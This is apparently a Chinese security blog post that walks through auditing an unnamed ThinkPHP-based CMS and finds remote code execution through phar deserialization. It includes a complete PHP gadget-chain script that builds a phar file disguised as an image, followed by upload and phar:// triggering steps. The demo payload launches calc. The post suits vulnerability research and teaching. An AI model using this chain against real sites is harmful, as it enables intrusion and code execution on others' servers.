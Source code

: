 #  某CMS源码RCE审计思路   
原创 Ambition  进击安全   2024-09-26 13:52  
  
**免责申明**  
  
本文章仅用于信息安全防御技术分享，因用于其他用途而产生不良后果,作者不承担任何法律责任，请严格遵循中华人民共和国相关法律法规，禁止做一切违法犯罪行为。  
  
  
**一、前言**  
  
****  
****这个依旧是一个学员审计出来的案例，今天拿出来分享一下，这个漏洞是基于phar反序列化的一个漏洞RCE利用方式，我们来查看漏洞点。  
  
**二、漏洞分析**  
  
    首先这个代码是一个ThinkPHP框架开发的一个项目，在代码当中可以看到第110行代码当中存在一个is_file方法，这个方法是进行判断xx文件是否存在。  
  
刚好is_file方法是能够触发我们的phar反序列化漏洞  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhVyOL7cO77fVjH4vRRKHHDypO379sxpTgdGMCwPlgR1pWUiaJibkw8kbvwaiaDiakRfZaBibGrPxYcw3mw/640?wx_fmt=png&from=appmsg "")  
  
Get()函数代码110行is_file函数中$filename参数可控，而is_file函数又在get()函数中。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhVyOL7cO77fVjH4vRRKHHDyxRZspmCuTiaOMp93M4yic8bU0n2sibdCZCCTric7XavCwAt972tTtVxBLg/640?wx_fmt=png&from=appmsg "")  
  
继续寻找read方法查看哪里调用。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhVyOL7cO77fVjH4vRRKHHDyK05EV9X4Ph8baMwwRRibdAM97BUpkRdqaWSuXkNic4YQIZA4rWCrx56A/640?wx_fmt=png&from=appmsg "")  
  
函数file_info()在代码108行调用了read()函数，继续查看哪里调用file_info。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhVyOL7cO77fVjH4vRRKHHDyQGvJ9tQxTARUES8hmTobfUJKEJRMOjgCyTSrEiabGX4svtwVIn5qrZg/640?wx_fmt=png&from=appmsg "")  
  
    好，全程是可控的，并且代码是  
TP开发的框  
架，我们从网上找到对应的反序列化链子，这里链子在下面，使  
用反序列化链生成phar文件，phar文件不会受到文件后缀名的影响，我们生成jpg就可以。  
```
<?php
namespace think\process\pipes {
    class Windows
    {
        private $files;
        public function __construct($files)
{
            $this->files = array($files);
        }
    }
}

namespace think\model\concern {
    trait Conversion
    {
        protected $append = array("smi1e" => "1");
    }

    trait Attribute
    {
        private $data;
        private $withAttr = array("smi1e" => "system");

        public function get()
{
            $this->data = array("smi1e" => "calc");
        }
    }
}
namespace think {
    abstract class Model
    {
        use model\concern\Attribute;
        use model\concern\Conversion;
    }
}

namespace think\model{
    use think\Model;
    class Pivot extends Model
{
        public function __construct()
{
            $this->get();
        }
    }
}

namespace {

    $conver = new think\model\Pivot();
    $a = new think\process\pipes\Windows($conver);


    $phar = new Phar('hkey.phar');
    $phar -> stopBuffering();
    $phar -> setStub('GIF89a'.'<?php __HALT_COMPILER();?>');
    $phar -> addFromString('test.txt','test');
    $phar -> setMetadata($a);
    $phar -> stopBuffering();
}
?>
```  
  
生成文件之后我们改名为jpg，进行触发功能点。  
  
**三、漏洞利用**  
  
生成出来文件  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhVyOL7cO77fVjH4vRRKHHDyy4SEdI9lyKgLBOyHwzIAcIOz4e985L7Lx2UVZ8seO9leCwPaZarHuw/640?wx_fmt=png&from=appmsg "")  
  
生成出来文件之后改为png图片（改为png主要是方便我们上传）  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhVyOL7cO77fVjH4vRRKHHDyGibfUq4sYicKOHmda73T2TUy9aVN47AxIYHMN3KHTDMiao2QoMyBRs77Q/640?wx_fmt=png&from=appmsg "")  
  
进行上传。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhVyOL7cO77fVjH4vRRKHHDyXlNFsh4PsjQeic32ycA0hW8NPHqDasAEbeB50QB0BfTWs7e7nsgpKFw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhVyOL7cO77fVjH4vRRKHHDycgrMibUmGCDgIXUnz3SNCiac4HwpEOgicgHcYKzcxFmTXu7sMlsS5GhkA/640?wx_fmt=png&from=appmsg "")  
  
拿到对应路径之后开始利用。  
  
访问我们审计出来的功能点地址。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhVyOL7cO77fVjH4vRRKHHDyeict9KNr6AzQGt7uYNvQa7FoePQ96GteJvSQ4rx0JLDZ7YoqTiaCcGiaQ/640?wx_fmt=png&from=appmsg "")  
  
抓包修改为phar://上传png图片地址  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ZRKuxIKRyhVyOL7cO77fVjH4vRRKHHDyq5W1nqpPS8EtLr2az5aNsIZpuicwBgHGq5I5Aw7SdNoFxJFUgylIsRg/640?wx_fmt=png&from=appmsg "")  
  
弹出计算机！  
  
关于phar反序列化，如果大家不懂的可以自行百度了解，还是挺值得分析的。  
  
**四、完结**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/ZRKuxIKRyhXhuxbCGecu4ibia3kSXD8ePQHrSvPSNtC7PmjzQwR88Hu0LpuXdQzamKBCPAXX82anLS8f0FF3LzzQ/640?wx_fmt=jpeg "")  
  
  
